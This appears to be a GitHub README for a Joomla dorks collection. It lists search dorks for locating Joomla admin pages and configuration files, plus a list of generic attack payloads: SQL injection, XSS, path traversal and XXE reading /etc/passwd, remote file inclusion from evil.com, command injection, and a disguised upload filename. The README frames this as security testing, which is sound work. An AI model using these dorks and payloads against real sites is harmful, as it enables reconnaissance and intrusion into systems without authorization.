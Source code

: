 
# Joomla Dorks Repository

![Joomla](https://img.shields.io/badge/Joomla-CMS-orange)

Welcome to the Joomla Dorks repository! This repository is a collection of Joomla-specific dorks, providing insights into potential security vulnerabilities and exploit possibilities in Joomla Content Management System (CMS).

## Table of Contents
- [What is Joomla?](#what-is-joomla)
- [Examples of Joomla Dorks](#examples-of-joomla-dorks)
- [Understanding Joomla Dorks](#understanding-joomla-dorks)
- [Exploring the GDorks Main Repository](#exploring-the-gdorks-main-repository)
- [How to Use This Repository](#how-to-use-this-repository)
- [Contributing](#contributing)


## What is Joomla?

Joomla is a widely used open-source Content Management System (CMS) that enables users to build websites and powerful online applications. However, like any CMS, Joomla can be susceptible to various security vulnerabilities if not configured or maintained properly.

## Examples of Joomla Dorks

Here are examples of Joomla-specific dorks that aim to identify potential security loopholes or weaknesses in Joomla-based websites:

1. **Joomla Version Disclosure Dork:** Identify Joomla version in use.

   ```
   inurl:index.php?option=com_content&view=article&id=
   ```

2. **Administrator Login Dork:** Locate Joomla administrator login pages.

   ```
   inurl:/administrator/index.php
   ```

3. **Joomla Configuration Files Dork:** Search for Joomla configuration files.

   ```
   inurl:configuration.php
   ```

4. **Joomla Database Information Dork:** Look for Joomla database information.

   ```
   inurl:/configuration.php?op=config&task=site
   ```

For additional Joomla-specific dorks and detailed explanations, explore the contents within the [GDorks repository](https://github.com/Ishanoshada/GDorks/).

## Understanding Joomla Dorks

Understanding Joomla dorks can help in assessing the security posture of Joomla-based websites. Recognizing these dorks allows for proactive measures to secure Joomla installations and prevent potential exploitation.

## Exploring the GDorks Main Repository

The [GDorks repository](https://github.com/Ishanoshada/GDorks/) is a comprehensive resource covering an extensive collection of Joomla dorks, categorized folders, and detailed documentation about various vulnerabilities and security insights related to Joomla CMS.

## Joomla Payloads for Security Testing

Here are some common Joomla payloads that can be used for security testing, auditing, or demonstrating potential vulnerabilities:

1. **SQL Injection Payloads:**

   - `' OR 1=1--`
   - `1' OR '1' = '1'--`

2. **XSS Payloads:**

   - `<script>alert('XSS')</script>`
   - `<img src="javascript:alert('XSS')" />`

3. **Path Traversal Payloads:**

   - `../../../etc/passwd`
   - `../../../../../../etc/passwd%00`

4. **Remote File Inclusion Payloads:**

   - `http://evil.com/malicious.php`
   - `data://text/plain;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=`

5. **Command Injection Payloads:**

   - `; ls -la`
   - `| ls`

6. **LDAP Injection Payloads:**

   - `*)(|(objectClass=*))`

7. **Brute Force Payloads:**

   - `' OR '1'='1`

8. **Header Injection Payloads:**

   - `Location: https://malicious-site.com`

9. **XML External Entity (XXE) Payloads:**

   - `<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`

10. **File Upload Payloads:**

    - `malicious.php;.jpg`

Please ensure you have proper authorization and permission before utilizing these payloads for security testing. Remember to act responsibly and ethically when testing Joomla websites for vulnerabilities.

## How to Use This Repository
This repository is organized into folders, each containing specific Joomla dorks and related information. Users can explore these folders to discover Joomla dorks of interest.

To contribute to this repository, follow the steps outlined in the [Contributing](#contributing) section.

## Contributing

Contributions to this repository are encouraged! If you have additional Joomla dorks, examples, or documentation to share, follow these steps:

1. Fork the repository.
2. Create a new branch with a descriptive name.
3. Add your Joomla dorks or other content.
4. Submit a pull request.

Your contributions will help make this repository more comprehensive and informative for the Joomla community.

Explore, learn, and contribute responsibly to secure Joomla installations.

Happy hunting for Joomla vulnerabilities and remember to act responsibly and ethically when testing security vulnerabilities.
o explore and contribute to the GDorks repository for a comprehensive collection of Joomla vulnerabilities and security insights.

